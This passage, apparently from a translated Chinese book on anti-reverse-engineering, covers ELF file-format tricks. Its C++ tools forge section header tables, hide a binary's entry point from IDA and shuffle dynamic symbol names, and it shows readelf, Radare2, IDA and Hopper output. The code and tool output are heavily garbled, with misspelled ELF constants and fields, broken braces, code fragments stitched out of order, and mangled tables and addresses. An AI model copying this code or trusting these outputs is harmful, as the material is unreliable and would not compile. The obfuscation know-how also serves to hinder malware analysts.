    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' ||
        p_data[3] != 'F')
    {
        return false;
    }

    Elf64_hdr* ehdr = reinterpret_cast<Elf64_hdr*>(&p_data[0]);

    if (ehdr->shoff != 0)
    {
        std::cerr << "The binary has a section table." << std::endl;
        return false;
    }

    if (ehdr->e_size != sizeof(Elf64_hdr))
    {
        std::cerr << "Unexpected section header" << std::endl;
        return false;
    }

    ehdr->shoff = p_data.size();
    ehdr->e_shnum = 6;
    ehdr->e_shstr = 5;
    return true;
}
```

### 更新后的 `add_data_section()`

```cpp
bool add_data_section(std::string& p_data, std::string& p_strings)
{
    Elf64_hdr* ehdr = reinterpret_cast<Elf64_hdr*>(&p_data[0]);
    Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[0] + ehdr->e_phoff);

    for (int i = 0; i < ehdr->e_phnum; i++)
    {
        if (phdr->p_type == PT_LOAD)
        {
            if ((phdr->p_flags & PF_X) == PF_X)
            {
                std::size_t entry_physical = 8;

                Elf64_Shdr init_header = {};
                init_header.sh_name = p_strings.size();
                init_header.sh_type = SHT_PROGBITS;
                init_header.sh_flags = SHF_ALLOC | SHF_EXECINSTR;
                init_header.sh_addr = phdr->p_vaddr;
                init_header.sh_offset = phdr->p_offset;
                init_header.sh_size = entry_physical;
                init_header.sh_link = 0;
                init_header.sh_info = 0;
                init_header.sh_align = 4;
                init_header.sh_entsize = 0;
                p_strings.append(".init");
                p_strings.push_back('\00');
                p_data.append(reinterpret_cast<char*>(&init_header),
                               sizeof(init_header));

                Elf64_Shdr data_header = {};
                data_header.sh_name = p_strings.size();
                data_header.sh_type = SHT_PROGBITS;
                data_header.sh_flags = SHF_ALLOC | SHF_WRITE;
                data_header.sh_addr = phdr->p_vaddr + entry_physical + 1;
                data_header.sh_offset = phdr->p_offset + entry_physical + 1;
                data_header.sh_size = phdr->p_filesz - (entry_physical + 1) - 8;
                data_header.sh_link = 0;
                data_header.sh_info = 0;
                data_header.sh_align = 4;
                data_header.sh_entsize = 0;
                p_strings.append(".data");
                p_strings.push_back('\00');
                p_data.append(reinterpret_cast<char*>(&data_header),
                               sizeof(data_header));

                Elf64_Shdr fini_header = {};
                fini_header.sh_name = p_strings.size();
                fini_header.sh_type = SHT_PROGBITS;
                fini_header.sh_flags = SHF_ALLOC | SHF_WRITE;
                fini_header.sh_addr = phdr->p_vaddr + entry_physical + 1;
                fini_header.sh_offset = phdr->p_offset + entry_physical + 1;
                fini_header.sh_size = phdr->p_filesz - (entry_physical + 1) - 8;
                fini_header.sh_link = 0;
                fini_header.sh_info = 0;
                fini_header.sh_align = 4;
                fini_header.sh_entsize = 0;
                p_strings.append(".fini");
                p_strings.push_back('\00');
                p_data.append(reinterpret_cast<char*>(&fini_header),
                               sizeof(fini_header));
            }
        }
    }
    return true;
}
return false;
```

重新编译 `fakeHeadersXBit` 和 `Trouble`。使用 `StripBinary` 移除 `Trouble` 中真实的节表，然后使用 `fakeHeadersXBit` 附加伪造头部表。如果你操作成功，`readelf` 的输出如下：

## 带有更新版本 `fakeHeadersXBit` 的 Trouble

```
albino-lobster@ubuntu:~/antire_book/chap_3_format_h/build$ readelf -a -t/
rouble
ELF Header:
Magic: 7f 45 4c 46 02 01 00 00 00 00 00 00 00 00 00
Class: ELF64
Data: 2'complement, little endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: EXEC (Executable file)
Machine: Advanced Micro Devices X86-64
Version: 0x1
Entry point address: 0x4002f2
Start of program headers: 64 (bytes into file)
Start of section headers: 9560 (bytes into file)
Flags: 0x0
Size of this header: 64 (bytes)
Size of program headers: 56 (bytes)
Number of program headers: 4
Size of section headers: 64 (bytes)
Number of section headers: 6
```

## 第3章：文件格式技巧

节头字符串表索引：5

节头：

| 序号 | 名称 | 类型 | 地址偏移 | 大小 | 标志 | 链接 | 对齐 |

|---|---|---|---|---|---|---|---|

| [ 0] | | NULL | 0000000000000000 | 0000000000000000 | 0 | 0 | 0 |

| [ 1 ] | .init | PROBITS | 0000000000000008 | 0000000000000000 | AX | 0 | 000000000 |

| [ 2 ] | .data | PROBITS | 000000000000010b | 0000000000000009 | WA | 0 | 400000009 |

| [ 3 ] | .fini | PROBITS | 0000000000000008 | 0000000000401c14 | WA | 0 | 400001c14 |

| [ 4 ] | .text | | | 00000000000601fe8 | AX | 0 | 400001fe8 |

| [ 5 ] | .shstrtab | STRTAB | 0000000000000000 | | 0 | 40000268d |

标志说明：

W (写), A (分配), X (执行), M (合并), S (字符串), l (大) 

I (信息), L (链接顺序), G (组), T (TLS), E (排除), x (未知)

O (需要OS处理) o (OS特有), p (处理器特定)

此文件中没有节组。

程序头：

| 偏移量 | 虚拟地址 | 物理地址 | 文件大小 | 内存大小 | 标志 | 对齐 |

|---|---|---|---|---|---|---|

| LOAD | 0x0000000000000000 | 0x0000000000004000 | 0x0000000000000000 | | | |

| 0x00000000000001c1 | 0x00000000000001c1 | | | RE | 20000 | |

| LOAD | 0x00000000000001fe8 | 0x00000000000001fe8 | | | RW | 20000 | |

| 0x0000000000000178 | 0x00000000000004b4 | | | RW | | |

| GNU_STACK | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | | | 10 | |

| 0x0000000000000000 | 0x0000000000000000 | | | RW | | |

| GNU_RELRO | 0x00000000000001fe8 | 0x00000000000001fe8 | | | R | 1 | |

| 0x0000000000000018 | 0x0000000000000018 | | | | | |

节到段的映射：

段：

+ 00 .init .data .fini

01 .text

02

03

## 第3章：文件格式技巧

此文件中没有动态重定位节。

此文件中没有重定位项。

目前不支持机器类型 Advanced Micro Devices X86-64 的展开节（unwind sections）解码。

此文件中未找到版本信息。

现在你尝试在 `Radare2` 中加载 `Trouble`，你会遇到一个有趣的问题。

## `Radare2` 中更新的 `fakeHeadersXBit` 的问题

```
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ radare2 ./trou
Warning: Cannot initialize dynamic strings
-- 要移除此消息，请在 .dbxrc 中放入 `dbxven suppress_startup_message 7.5' [0x004002f2] aaa
[Cannot find function 'entry' at 0x004002f2 entry(aa)
[x] 使用 sym. 和 entry(aa) 分析所有标志
Warning: 正在非可执行区域中搜索交叉引用 (aar)
[x] 分析指令的长度字节以查找引用 (aar)
[x] 分析函数调用 (aac)
[*] 使用-AA 或 aaaa 进行额外的实验性分析。
[] 为 fcn.* 和 sym.* 函数构造函数名 (aan) [0x004002f2] pdf
p: 找不到函数 0x004002f2
```

`Radare2` 找不到入口点！事实上，`Radare2` 没有找到任何函数！为了获得更清晰的视图，我启动了 `Radare2` GUI。

## 启动 `Radare2` GUI

```
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ radare2 -cH /trouble
Warning: Cannot initialize dynamic strings
正在启动服务器...
open http://localhost:9090/
radare2 -C http://localhost:9090/
```

查看 `0x400000` 时问题变得显而易见。记住这里是 ELF 头部开始的地方，但节头也显示 `.init` 在那里。`Radare2` 反汇编 `.init` 节并没有停止！

## `Radare2` 正在反汇编 `.init` 节

```
[ va=0x0400000 pa=0x0000000 sz=64 vs=64 ehdr,=< section..init:
,= -- section.LOAD:
,= -- section.ehdr:=< 0x040000 lg 0x04004
000002 add r8b, [rcx]
0400006 add [rax], eax
| -- section..data:
0400008 add [rax], al
```

当 `Radare2` 尝试反汇编入口点时，发现它已经被标记为代码，从而停止了后续的分析。遗憾的是，这种技巧在 `IDA` 中无效。当 `IDA` 也反汇编 `.init` 节时，反汇编会在 `.init` 处停止。

## `IDA` 正在反汇编 `.init` 节

```
.init:000000000400000 _init_proc public _init_proc
.init:000000000400000 _init_proc near
.init:000000000400000 j short ptr_unk_400047
.init:000000000400000 db 4Ch
.init:000000000400002 add r8b, [rcx]
.init:000000000400002 add [rax], eax
.init:000000000400006 _init_proc endp
.init:000000000400006 _init_ends
.init:000000000400006
```


然而，知道 IDA 会反汇编 `.init` 节是有用的。也许我们可以使用 `.init` 来停止入口点的反汇编。更新 `fakeHeaders` 中的 `add_data_section()` 函数，让 `.init` 节包含入口地址。

```cpp
bool add_data_section(std::string& p_data, std::string& p_strings)
{
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[0] + ehdr->e_phoff);
    for (int i = 0; i < ehdr->e_phnum; i++, phdr++) {
        if (phdr->p_type == PT_LOAD) {
            if ((phdr->p_flags & PF_X) == PF_X) {
                size_t entry_physical = (ehdr->e_entry + 1) - phdr->p_vaddr;
                Elf64_Shdr init_header = {};
                init_header.sh_name = p_strings.size();
                init_header.sh_type = SHT_PROBITS;
                init_header.sh_flags = SHF_ALLOC | SHF_EXECINSTR;
                init_header.sh_addr = phdr->p_vaddr;
                init_header.sh_offset = phdr->p_offset;
                init_header.sh_size = entry_physical;
                init_header.sh_link = 0;
            }
        }
    }
}
```

```cpp
init_header.sh_info = 0;
init_header.sh_addalign = 4;
init_header.sh_entsize = 0;
p_strings.append(".init");
p_strings.push_back('\x00');
p_data.append(reinterpret_cast<char*>(&init_header, sizeof(init_header)));
```

```cpp
Elf64_Shdr data_header = {};
data_header.sh_name = p_strings.size();
data_header.sh_type = SHT_PROBITS;
data_header.sh_flags = SHF_ALLOC | SHF_WRITE;
data_header.sh_addr = phdr->p_vaddr + 1;
data_header.sh_offset = phdr->p_offset + 1;
data_header.sh_size = entry_physical;
data_header.sh_link = 0;
data_header.sh_info = 0;
data_header.sh_addalign = 4;
data_header.sh_entsize = 0;
p_strings.append(".data");
p_strings.push_back('\x00');
p_data.append(reinterpret_cast<char*>(&data_header, sizeof(data_header)));
```

## 第 3 章：文件格式技巧

### 通过重叠入口点和 .init 来在 IDA 中隐藏入口点

```
.init:000000000000402F0    db 2 dup()
.init:000000000000402F2    public start
.init:000000000000402F2 start    db 48h
.init:000000000000402F2 _init    ends
.init:000000000000402F2
.data:000000000000402F4    ====================================
.data:000000000000402F4    Segment type: Pure data
.data:000000000000402F4    Segment permissions: Read/Write
.data:000000000000402F4 _data    segment dwarf public 'DATA' use64
.data:000000000000402F4    assume cs:data
.data:000000000000402F4    db 0EDH ; f
.data:000000000000402F4    db 49h ; I
.data:000000000000402F5
```

由于 IDA 会在 `.init` 的边界处停止反汇编，它无法反汇编入口点的任何部分。由于入口点没有反汇编，加上你同时也修改了可执行标记，IDA 将无法反汇编其他任何内容。

### 隐藏入口点

在上一节中，你通过修改节区头中的大小属性，阻止了 IDA 反汇编入口点。在本节中，你将学习另一种可以完全隐藏入口点的小技巧。

考虑 C 语言中的节区头结构体字段。

#### 64 位 ELF64_section header 结构体

```
struct Elf64_Shdr
{
    uint32_t sh_name;
    uint32_t sh_type;
    uint64_t sh_flags;
    Elf64_Addr sh_addr;
    Elf64_Off sh_offset;
    uint64_t sh_size;
    uint32_t sh_link;
    uint32_t sh_info;
    uint64_t sh_addralign;
    uint64_t sh_entsize;
};
```

该技术涉及的三个字段是 `sh_addr`（虚拟地址）、`sh_offset`（物理偏移）和 `sh_size`。同样重要的是，ELF 头中的入口点地址是虚拟地址。

现在，假设你有一个虚拟地址，并想在二进制文件中查找实际位置。你查看节区头表，并通过计算 `sh_addr` 和 `sh_addr + sh_size` 的范围找到确定该地址落在哪个节区。一旦找到了该节区，你就可以通过减去 `sh_addr` 并加上 `sh_offset` 来计算虚拟地址的物理偏移。现在你应该知道在二进制文件中找到该虚拟地址的精确偏移。

然而，如果我们为 `sh_addr` 放入一个错误的值，会是如何破坏计算的？假设我们有以下值：

```
virtual_address = 0x4002f0
sh_addr = 0x0400000
sh_size = 0x0000800
sh_offset = 0
```

通常情况下，你可以通过 `0x2f0` (`(0x4002f0 - 0x400000) + 0`) 找到文件中第 0x2f0 字节处。但是，如果你引入一个小谎言，说 `sh_addr = 0x400010`，计算结果就会改变。现在计算结果为 0x4002f0 在文件中第 0x2e0 字节处。

### 第 3 章：文件格式技巧

这是一种用于隐藏入口点的技巧。如果你添加一个伪的节区头表并修改包含入口点的节区的基地址，那么任何完全依赖节区头表的反汇编器都无法在文件中正确找到入口点。

我写了一些代码可以实现此操作，你可以进一步检查。该项目名为 `fakeHeadersHideEntry`，可以在章节目录下找到。有两个文件：`CMakeLists.txt` 和 `fakeHeadersHideEntry.cpp`。

`chap3_format_hacks/fakeHeadersHideEntry/CMakeLists.txt`

```cmake
project(fakeHeadersHideEntry CXX)
cmake_minimum_required(VERSION 3.0)
set(CMAKE_C_FLAGS "-Wall -Wextra -Wshadow")
add_executable(${PROJECT_NAME} src/fakeHeadersHideEntry.cpp)
```

`chap3_format_hacks/fakeHeadersHideEntry/src/fakeHeadersHideEntry.cpp`

```cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <iomanip>
#include <cstring>
#include <ctime>
#include <elf.h>
/*
* 此工具会导致依赖节区表虚拟地址映射的反汇编器找不到入口点。
* 工具期望二进制文件没有节区表。它会添加自己的节区表：
* .text: 代码节区。它会修改 sh_addr。
* .data: r/w 数据节区。
* .shstr: 字符串表。
* 此代码假设二进制文件有两个 PF_LOAD 段：一个设置了 PF_X，一个设置了 PF_W。
* 修改 ELF 头指示有 4 个节区且字符串表是最后一个。
* \param[in,out] p_data 二进制文件
* \return 如果可以添加节区表则返回 true，否则返回 false
*/
bool edit_elf_header(std::string& p_data)
{
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' || p_data[3] != 'F')
    {
        return false;
    }
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    if (ehdr->e_shoff != 0)
    {
        std::cerr << "The binary already has a section table." << std::endl;
        return false;
    }
    if (ehdr->e_shsize != sizeof(Elf64_Shdr))
    {
        std::cerr << "Unexpected section header size" << std::endl;
        return false;
    }
    ehdr->e_shoff = p_data.size();
    ehdr->e_shnum = 4;
    ehdr->e_shstr = 3;
    return true;
}
/*
* 找到 PF_X LOAD 段并创建一个相应的节区头。
* 修改基地址以干扰任何依赖头的反汇编器。
* \param[in,out] p_data ELF二进制
* \param[in,out] p_strings 节区表字符串
* \return 如果没有遇到错误则返回 true
*/
bool add_data_section(std::string& p_data, std::string& p_strings)
{
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[0] + ehdr->e_phoff);
    for (int i = 0; i < ehdr->e_phnum; i++, phdr++) {
        if ((phdr->p_flags & PF_X) == PF_X) {
            Elf64_Shdr data_header = {};
            data_header.sh_size = p_strings.size();
            data_header.sh_type = SHT_PROBITS;
            data_header.sh_flags = SHF_ALLOC | SHF_EXECINSTR;
            // 每次运行“随机”创建一个不同的偏移
            srand((unsigned)time(0));
            int base = rand() % 250;
            data_header.sh_addr = phdr->p_vaddr + base;
            data_header.sh_offset = phdr->p_offset;
            data_header.sh_size = phdr->p_filesize - base;
            data_header.sh_link = 0;
            data_header.sh_info = 0;
            data_header.sh_align = 4;
            data_header.sh_entsize = 0;
            p_strings.append(".text");
            p_strings.push_back('\x00');
            p_data.append(reinterpret_cast<char*>(&data_header), sizeof(data_header));
            return true;
        }
    }
    return false;
}
/*
* 找到 PF_W 段并创建一个名为 .data 的匹配节区头
* \param[in,out] p_data ELF二进制
* \param[in,out] p_strings 节区表字符串
* \return 如果没有遇到错误则返回 true
*/
bool add_text_section(std::string& p_data, std::string& p_strings)
{
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    // ... (注：原文此处代码逻辑与 add_data_section 相似，但函数名是 add_text_section)
    // 按照原文逻辑翻译：
    for (int i = 0; i < ehdr->e_phnum; i++, phdr++)
    {
        if (phdr->p_type == PT_LOAD)
        {
            Elf64_Shdr text_header = {};
            text_header.sh_name = p_strings.size();
            text_header.sh_type = SHT_PROGBITS;
            text_header.sh_flags = SHF_ALLOC | SHF_WRITE;
            text_header.sh_addr = phdr->p_vaddr;
            text_header.sh_offset = phdr->p_offset;
            text_header.sh_size = phdr->p_filesize;
            text_header.sh_link = 0;
            text_header.sh_info = 0;
            text_header.sh_align = 4;
            text_header.sh_entsize = 0;
            p_strings.append(".data");
            p_strings.push_back('\x00');
            p_data.append(reinterpret_cast<char*>(&text_header), sizeof(text_header));
            return true;
        }
    }
    return false;
}
/*
* 创建伪的节区表并将字符串追加到文件末尾。
* \param[in,out] p_data ELF二进制
* \return 成功时返回 true，否则返回 false
*/
bool append_sections(std::string& p_data, std::string& p_strings)
```

## 第3 章：格式破解技巧

```cpp
// this will contain the section name strings
std::string strings;
strings.push_back('\x00');
```


```cpp
// first section is empty

Elf64_Shdr null_header = {};

p_data.append(reinterpret_cast<char*>(&null_header), sizeof(null_header));
```

```cpp
if (!add_data_section(p_data, strings)) {
    std::cerr << "Failed to find the executable LOAD segment" << std::endl;
    return false;
}
```

```cpp
if (!add_text_section(p_data, strings)) {
    std::cerr << "Failed to find the writable LOAD segment" << std::endl;
    return false;
}
```

```cpp
// .shstrtab

Elf64_Shdr strtab = {};

strtab.sh_name = strings.size();
strtab.sh_type = SHT_STRTAB;
strtab.sh_flags = 0;
strtab.sh_offset = 0;
strtab.sh_size = p_data.size() + sizeof(Elf64_Shdr);
strtab.sh_size = 0;
strtab.sh_link = 0;
strtab.sh_info = 0;
strtab.sh_align = 4;
strtab.sh_entsize = 0;

strings.append(".shstrtab");
strings.push_back('\x00');
strtab.sh_size = strings.size();

p_data.append(reinterpret_cast<char*>(&strtab), sizeof(strtab));
p_data.append(strings);
return true;
}
```

```cpp
int main(int p_argc, char** p_argv)
{
```

```cpp
if (p_argc != 2)
{
    std::cerr << "Usage: ./headersHideEntry <file path>" << std::endl;
    return EXIT_FAILURE;
}
```

```cpp
std::ifstream inputFile(p_argv[1], std::ifstream::in | std::ifstream::binary);
if (!inputFile.is_open() || !inputFile.good()) {
    std::cerr << "Failed to open the provided file: " << p_argv[1] << std::endl;
    return EXIT_FAILURE;
}
```

```cpp
std::string input(std::istream_iterator<char>(inputFile), std::istream_iterator<char>());
inputFile.close();
```

```cpp
if (!edit_elf_header(input)) {
    return EXIT_FAILURE;
}
```

```cpp
if (!append_sections(input)) {
    return EXIT_FAILURE;
}
```

```cpp
std::ofstream outputFile(p_argv[1], std::ofstream::out | std::ofstream::binary);
if (!outputFile.is_open() || !outputFile.good()) {
    std::cerr << "Failed to open the provided file: " << p_argv[1] << std::endl;
    return EXIT_FAILURE;
}
```

```cpp
outputFile.write(input.data(), input.length());
outputFile.close();
return EXIT_SUCCESS;
```

与之前一样，使用 CMake 编译项目。

## 编译 fakeHeadersHideEntry

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry/
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry$ mkdir build
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry$ cd build
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry$ cmake cmake ..
-- The CXX compiler identification is GNU 5.4.0
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ works
  -- Detecting CXX compiler ABI info done
  -- Detecting CXX compiler features
  -- Detecting CXX compile features done
  -- Configuring done
  -- Generating done
Build files have been written to: /home/albino-lobster/antire_book/chap_3_format_hacks/fakeHeadersHideEntry/build
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry$ make
make Scanning dependencies of target fakeHeadersHideEntry
[ 50%] Building CXX object CMakeFiles/fakeHeadersHideEntry.dir/src/fakeHeadersHideEntry.cpp
[ 100%] CXX executable fakeHeadersHideEntry
[100%] Built target fakeHeadersHideEntry
```

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry$
```

重新编译 Trouble 并使用 `strip --strip` 移除节区头部。接下来使用 fakeHeadersHideEntry 追加伪造的节区头部表。

在 Trouble 上运行 fakeHeadersHideEntry：

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/fakeHeadersHideEntry/build$ ./fakeHeadersHideEntry ~/antire_book/chap_3_format_hacks/trouble/build/trouble
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ radare2 ./ble
```

输出并不令人兴奋，但结果如此。首先在 Radare2 中查看 Trouble。

## 第3 章：格式破解

## 在 Radare2 中通过 fakeHeadersHideEntry 查看 Trouble

```radare2
./ble
Warning: Cannot initialize dynamic strings. 你可以使用光标 'c' 和 'y' 拷贝字节。使用 'a' 进行分析。为 fcn 构建函数。

0x00400f2> pdf();
0x00400f2      4831ed xor rbp, rbp
0x00400f25      4889d1 mov r9, rdx
0x00400f58      pop rsi
0x00400f59      4889e2 mov rdx, rsp
0x00400fc2      4883c0 and rsp, 0xffff ; 0x40013f
0x00400300      49c7f0139 mov rdi, 0xc9013f ; 0x400120
0x00400307      48cc120140 mov rcx, 0xc0120 ;
0x0040030e      48cc730140 mov rdi, 0x400100
0x00400315      e8b4c0200 call fcn.04056
; JMP XREF from 0x004031a (entry)
->0x004031a      ebfe jmp 0x004031a
0x00400f2> is [Sections]
| idx | vaddr | paddr | size | perm | name |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0x00000000 | 0x00000000 | 0 | | |
| 1 | 0x00400015 | 0x00000000 | 7175 | 7175 | r-x | text |
| 2 | 0x004006f8 | 0x00000000 | 376 | 376 | r-w | data |
| 3 | 0x00400000 | 0x00002658 | 23 | 23 | | .shhtrab |
| 4 | 0x00400000 | 0x00000000 | 7196 | 7196 | r-x | LOAD0 |
| 5 | 0x004001fe8 | 0x00001fe8 | 376 | 1208 | r-w | LOAD1 |
| 6 | 0x00400000 | 0x00001fe8 | 0 | 0 | r-w | GNU_STACK |
| 7 | 0x006001fe8 | 0x00001fe8 | 24 | 24 | r-m | GNU_RELRO |
| 8 | 0x00400000 | 0x00000000 | 64 | 64 | r-w | ehdr |
# 9 sections
```

```radare2
0x00400f2]>
```

## 第3 章：

这种混淆技术对 Radare2 没有影响。这进一步证实了即使存在节区头部，Radare2 也倾向于使用程序头部中的信息。让我们与 IDA 进行对比。以下是 IDA 对入口点的汇编代码。

## 在 IDA 中通过 fakeHeadersHideEntry 查看 Trouble

```assembly
.text:00000000000002F2      public start
.text:00000000000002F2 start       proc near
.text:00000000000002F2
.text:00000000000002F2  arg_40= qword ptr 48h
.text:00000000000002F2      ; FUNCTION CHUNK AT .text:0000000000021E SIZE 000001D BYTES
.text:00000000000002F2
.text:00000000000002F2              add             [rbp],
.text:00000000000002F8              call           sub_40090
.text:00000000000002FD              jmp             loc_4001E
.text:0000000000000302      ;
.text:0000000000000302
.text:0000000000000302      loc_40032: ; CODE XREF: start-C4
.text:0000000000000302              call           sub_4061B
.text:0000000000000307              ;
.text:0000000000000307              xor             rbp, rbp
.text:000000000000030A              mov             r9, rdx
.text:000000000000030D              mov             rsi
.text:000000000000030E              mov             rdx, rsp
.text:0000000000000311              and             rsp, 0xFFFFFF0
.text:0000000000000315              mov             r8, (offset loc_40139B+4)
.text:000000000000031C              mov             rcx, 400120h
.text:0000000000000323              mov             rdi, offset byte_401130
.text:000000000000032A              call           sub_40057F
.text:000000000000032F      ;
.text:000000000000032F              jmp             short loc_40032F
.text:000000000000032F start
endp             sp-analysis failed
```

最后，让我们看看 Hopper 如何处理这种混淆技术。

## 第 3 章：文件格式技巧

## 在 Hopper 中检查 fakeHeaderHideEntry 的问题

```
EntryPoint:
000000000000402f2  xor     rbp, rbp
000000000000402f5  mov     r9, rdx
000000000000402f8  pop     rsi      ; argument #2 for method sub_400566
000000000000402f9  mov     rdx, rsp      ; argument #3 for method sub_400566
000000000000402fc  and     rsp, 0xffffffffffffff0
00000000000040300  mov     r8, 0x04039f
00000000000040307  mov     rcx, 0x040120
0000000000004030e  mov     rdi, 0x040130      ; argument #1 for method sub_400566
00000000000040315  call    sub_400566
0000000000004031a  jmp     0x40031a          ; XREF=EntryPoint+40
      endp
```

你可以看到，Hopper 和 Radare2 一样也能正确反汇编入口点。这似乎只对 IDA 有用，但它仍然是我们工具箱中一个非常有用的工具。

## 混合符号

到目前为止，本章强调了使用静态编译的 Trouble 进行文件格式技巧。然而，本节将讨论一种需要动态符号表存在的反逆向工程技术。在该节中，你必须回到使用旧版本的 Trouble。

我在 Andrew Pawlowski¹⁵ 写的一篇博客中看到了这种。在这种技术中，你将在二进制文件的末尾附加一个伪动态符号表。然后，你将重新指向 `.dynymsection` 头中的偏移量，使其指向伪符号表。最后，你将混合所有 `FUNC` 符号的符号名称指针。这将导致依赖于程序头内部符号节的反汇器在反汇编代码中显示错误的函数名。

我写了一个用于混合动态符号的工具。你可以在第三章目录下的 `mixDynamicSymbols` 中找到它。该项目有两个文件：`CMakeLists.txt` 和 `mixDynamicSymbols.cpp`。

> ¹⁵https://bdes.org/index.php?blog/archives/346-ELF-obfuscation-let-analysis-tools-show-wrong-external-symbol-calls.html

## chap_3_format_hacks/mixDynamicSymbols/CMakeLists.txt


```cmake
project(mixDynamicSymbols CXX)
make_minimum_required(VERSION 3.0)

set(CMAKE_FLAGS "Wall -Wextra -Wshadow")
add_executable(${PROJECT_NAME} src/mixDynamicSymbols.cpp)
```

## `chap_3_format_hacks/mixDynamicSymbols/src/mixDynamicSymbols.cpp`

```cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <iomanip>
#include <string>
#include <elf.h>
#include <vector>
```

```cpp
/*
* 此工具接收一个具有节表并使用动态
* 的 ELF 二进制文件，并在文件末尾附加伪动态符号表。
* 然后对伪符号表中的符号名称进行混合。这将导致
* 过度依赖节表的反汇器（如 IDA）
* 在反汇编中显示错误的符号名。
*/
```

```cpp
/*
* 在节表中查找 SHT_DYYM，将偏移量指向
* 文件的末尾，并将现有的 dynym 复制到文件末尾。然后遍历
* dynym 中的符号并更改所有名称偏移。
* @param[in] p_data 要修改的 ELF 二进制文件
* @return 如果没有遇到错误则返回 true，否则返回 false
*/
```

```cpp
bool append_dynym(std::string& p_data)
{
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' || p_data[3] != 'F') {
        std::cerr << "Bad magic."
    }
    return false;
}
```

```cpp
Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
if (ehdr->e_shoff == 0)
{
    std::cerr << "The binary has no sections table" << std::endl;
    return false;
}
```

```cpp
if (ehdr->e_hent != sizeof(Elf64_Shdr))
{
    std::cerr << "Unexpected section header size" << std::endl;
    return false;
}
```

```cpp
// 遍历节直到 .dynym
Elf64_Shdr* shdr = reinterpret_cast<Elf64_Shdr*>(&p_data[0] + ehdr->e_shoff);
for (int i = 0; i < ehdr->e_shnum; i++, shdr++)
{
    if (shdr->sh_type == SHT_DYYM)
    {
        size_t offset = shdr->sh_offset;
        // 将偏移量重新指向文件末尾
        shdr->sh_offset = p_data.size();
        // 将 dynym 复制到文件末尾
        p_data.append(p_data.data() + offset, shdr->sh_size);
        // 收集所有的字符串偏移
        std::vector<int> name_offsets;
        std::vector<Elf64_Sym> symbols;
        Elf64_Sym* symbol = reinterpret_cast<Elf64_Sym*>(&p_data[0] + shdr->sh_offset);
        for (size_t j = 0; j < shdr->sh_size / sizeof(Elf64_Sym); j++, symbol++)
        {
            if (ELF64_ST_TYPE(symbol->st_info) == STT_FUNC &&
                ELF64_ST_BIND(symbol->st_info) == STB_GLOBAL &&
                symbol->st_value == 0)
            {
                name_offsets.push_back(symbol->st_name);
            }
        }
    }
}
```

```cpp
symbols.push_back(*symbol);
}
// 混合符号
srand(time(NULL));
for (std::vector<Elf64_Sym>::iterator it = symbols.begin(); it != symbols.end(); ++it) {
    int index = rand() % name_offsets.size();
    it->st_name = name_offsets[index];
    name_offsets.erase(name_offsets.begin() + index);
}
return true;
```

```cpp
std::cerr << "Never found the dynamic table" << std::endl;
return false;
int main(int argc, char** argv)
{
    if (argc != 2) {
        std::cerr << "Usage: ./mixDynamicSymbols <file>" << std::endl;
        return EXIT_FAILURE;
    }

    std::ifstream inputFile(argv[1], std::ifstream::in | std::ifstream::binary);
    if (!inputFile.is_open() || !inputFile.good()) {
        std::cerr << "Failed to open the file: " << argv[1] << std::endl;
        return EXIT_FAILURE;
    }

    std::string input((std::istreambuf_iterator<char>(inputFile)), std::istreambuf_iterator<char>());
    inputFile.close();

    if (!append_dynym(input)) {
        return EXIT_FAILURE;
    }

    std::ofstream outputFile(argv[1], std::ofstream::out | std::ofstream::binary);
    if (!outputFile.is_open() || !outputFile.good()) {
        std::cerr << "Failed to write the file: " << argv[1] << std::endl;
        return EXIT_FAILURE;
    }
    outputFile.write(input.data(), input.length());
    outputFile.close();
    return EXIT_SUCCESS;
}
```

像常一样，你应该使用 CMake 进行编译。

```bash
lobster@ubuntu:~/book chap_3_format_hacks/mixDynamicSymbols$ mkdir build
lobster@ubuntu:~/book chap_3_format_hacks/mixDynamicSymbols$ cd build
lobster@ubuntu:~/book chap_3_format_hacks/mixDynamicSymbols$ cmake ..
-- The CXX compiler identification is GNU 5.4.0
-- Checking working compiler: /usr/bin/c++
-- Check for working compiler: /usr/bin/c++
-- Detecting CXX ABI -- done
-- Detecting CXX features -- done
-- Configuring
-- Generating
-- Build files have been written to /home/lobster/chap_3_format_hacks/mixDynamicSymbols/build
lobster@ubuntu:~/book chap_3_format_hacks/mixDynamicSymbols/build$ make
Scanning dependencies for mixDynamicSymbols
[50%] Building CXX mixDynamicSymbols.o
[100%] Linking CXX binary mixDynamicSymbols
[100%] Built target mixDynamicSymbols
```

